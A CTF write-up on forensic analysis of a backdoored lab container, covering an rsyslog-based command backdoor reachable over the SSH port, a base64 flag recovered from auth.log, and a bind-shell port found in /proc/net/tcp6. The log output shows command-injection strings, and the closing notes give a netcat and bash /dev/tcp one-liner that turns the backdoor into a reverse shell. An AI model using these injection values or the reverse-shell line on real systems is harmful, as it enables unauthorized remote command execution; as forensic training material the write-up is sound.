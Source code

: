 ```yaml
---
layout: post
title:  "5Charlie CTF - Aperture"
date:   2020-04-25 01:31:48 -0500
categories: [ctf, write-up, forensics, linux]
---
```


## Aperture 1

## Aperture 1 - Challenge

To access these challenges, ssh to <wheatley@analysis.5charlie.com>

What is the full path to the configuration file that has been backdoored to allow command execution through OpenSSH?

**Attachments:** `id_wheatly` - SSH Key

### Aperture 1 - Solution

Getting our bearings on the system we very quickly find that this system is a very minimal isolated Docker container.
Let's try to figure out what may have been played with by figuring out the most recently modified files

We'll specifically be using the `-t (sort by modifcation time)` flag and `-r (reverse sorting)` flag on our `ls` so that it gives us the most likely files closest to our prompt at the bottom.

{% highlight bash %}
cd /
ls -latr
{% endhighlight %}

``` text
total 80
drwxr-xr-x   2 root root 4096 Apr 24  2018 home
drwxr-xr-x   2 root root 4096 Apr 24  2018 boot
drwxr-xr-x   1 root root 4096 Mar 11 21:03 usr
drwxr-xr-x   2 root root 4096 Mar 11 21:03 srv
drwxr-xr-x   2 root root 4096 Mar 11 21:03 opt
drwxr-xr-x   2 root root 4096 Mar 11 21:03 mnt
drwxr-xr-x   2 root root 4096 Mar 11 21:03 media
drwxr-xr-x   2 root root 4096 Mar 11 21:03 lib64
drwxr-xr-x   1 root root 4096 Mar 11 21:05 var
drwx------   2 root root 4096 Mar 11 21:05 root
dr-xr-xr-x  13 root root    0 Apr 10 19:45 sys
drwxr-xr-x   1 root root 4096 Apr 13 04:57 lib
drwxr-xr-x   1 root root 4096 Apr 13 04:57 sbin
drwxr-xr-x   1 root root 4096 Apr 13 04:58 bin
-rwxr-xr-x   1 root root    0 Apr 25 06:36 .dockerenv
drwxr-xr-x   1 root root 4096 Apr 25 06:36 ..
drwxr-xr-x   1 root root 4096 Apr 25 06:36 .
dr-xr-xr-x 142 root root    0 Apr 25 06:36 proc
drwxr-xr-x   1 root root 4096 Apr 25 06:36 run
drwxr-xr-x   5 root root  400 Apr 25 06:36 dev
drwxr-xr-x   1 root root 4096 Apr 25 06:36 etc
drwxrwxrwt   1 root root 4096 Apr 25 06:36 tmp
wheatley@e2a54f310336:/$
```

There's nothing of interest in `/tmp` so next we dig into `/etc` which has plenty of configuration files that could be tweaked to cause security problems.

Let's continue down.

{% highlight bash %}
cd /
ls -latr
{% endhighlight %}

``` text
...[truncated]
drwxr-xr-x 1 root root    4096 Apr 13 04:57 rc4.d
drwxr-xr-x 1 root root    4096 Apr 13 04:57 rc3.d
drwxr-xr-x 1 root root    4096 Apr 13 04:57 rc2.d
-rw-r--r-- 1 root root    1252 Apr 13 04:57 passwd-
-rw-r--r-- 1 root root   13548 Apr 13 04:57 ld.so.cache
-rw-r--r-- 1 root root      22 Apr 13 04:58 subuid
-rw-r--r-- 1 root root      22 Apr 13 04:58 subgid
-rw-r----- 1 root shadow   691 Apr 13 04:58 shadow
-rw-r--r-- 1 root root    1297 Apr 13 04:58 passwd
-rw-r----- 1 root shadow   499 Apr 13 04:58 gshadow
-rw-r--r-- 1 root root     596 Apr 13 04:58 group
-rw-r--r-- 1 root root      36 Apr 13 04:58 ld.so.preload
drwxr-xr-x 1 root root    4096 Apr 13 04:58 ssh
drwxr-xr-x 1 root root    4096 Apr 13 04:58 rsyslog.d
lrwxrwxrwx 1 root root      12 Apr 25 06:36 mtab -> /proc/mounts
drwxr-xr-x 1 root root    4096 Apr 25 06:36 ..
-rw-r--r-- 1 root root     174 Apr 25 06:36 hosts
-rw-r--r-- 1 root root      13 Apr 25 06:36 hostname
-rw-r--r-- 1 root root      97 Apr 25 06:36 resolv.conf
-rw-r--r-- 1 root root    1358 Apr 25 06:36 rsyslog.conf
-r--r----- 1 root root     755 Apr 25 06:36 sudoers
drwxr-xr-x 1 root root    4096 Apr 25 06:36 .
wheatley@e2a54f310336:/etc$
```

Attempting to check our sudo privileges with `sudo -l` gives us a password prompt: no dice.

`hosts`, `hostname`, `resolv.conf`, and `mtab` were modified by Docker coming up. We can look, but it's nothing relevant.

`rsyslog.conf` and `rsyslog.d` were recently modified; that's a bit strange. Looking up rsyslog backdoors gives us Jacob Lell's post as the first result: <https://www.jakoblell.com/blog/2014/05/07/hacking-contest-backdooring-rsyslogd/>

In our own `/etc/rsyslog.d/rsyslog-README.conf` we can immediately see `auth.* ^/bin/atg` on line 77: an exact match to the blog post.

**Flag:** `/etc/rsyslog.d/rsyslog-README.conf`

## Aperture 2

### Aperture 2 - Challenge

What is the flag sent to the backdoored service?

### Aperture 2 - Solution

The backdoor commands are logged in `/var/log/auth.log` because it operates on the same port as SSH.

We can see that (if you tested connecting yourself) `auth.log` logs the attempts as `Bad protocol version identification <cmd>`.

To find the flag sent to the service historically, we can grep for that.

{% highlight bash %}
cat /var/log/auth.log | grep 'Bad proto'
{% endhighlight %}

``` text
Apr 13 04:33:58 5985561554b6 sshd[632]: Bad protocol version identification '';echo ZmxhZ3thbHdheXNfY2hlY2tfeW91cl9sb2dzfQo=;'' from 172.19.0.2 port 46120
Apr 13 04:34:37 5985561554b6 sshd[878]: Bad protocol version identification '';touch /tmp/owned;'' from 172.19.0.2 port 46122
wheatley@e2a54f310336:/etc$
```

We see a base64 encoded string, which, when decoded, gives us our flag.

**Flag:** `flag{always_check_your_logs}`

## Aperture 3

### Aperture 3 - Challenge

What port on this host is hosting a malicious bind shell?

### Aperture 3 - Solution

Since this host doesn't have anything like `netstat` or `ss`, we'll need to examine the `/proc` directory to determine open ports.

Nothing of interest in `/proc/net/tcp` or `/proc/net/udp`.

But if we look at `/proc/net/tcp6` we notice can see that there is a port bound to the wildcard (`::` aka the repeating zeros on index 1) with a port of hexidecimal `19B7`.

``` text
wheatley@09f81ab696ac:/tmp$ cat /proc/net/tcp6
  sl  local_address                         remote_address                        st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode
   0: 00000000000000000000000000000000:0016 00000000000000000000000000000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 2142157 1 ffff888153b1cc80 100 0 0 10 0
   1: 00000000000000000000000000000000:19B7 00000000000000000000000000000000:0000 0A 00000000:00000000 00:00000000 00000000  1000        0 2142057 1 ffff888153b1ee80 100 0 0 10 0
```

Converting that port to decimal, we have our flag.

``` text
➜  ~ python3
Python 3.6.9 (default, Apr 18 2020, 01:56:04)
[GCC 8.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x19B7
6583
```

**Flag:** `6583`

## Additional Notes

I have a bad habit of losing focus in CTFs a bit and playing around with the environment. Here is a line to leverage the provided backdoor as a shell instead of single-command.

{% highlight bash %}
nc -nvlp 1234 &
echo "';bash -i >& /dev/tcp/127.0.0.1/1234 0>&1;'"|nc 127.0.0.1
fg
{% endhighlight %}
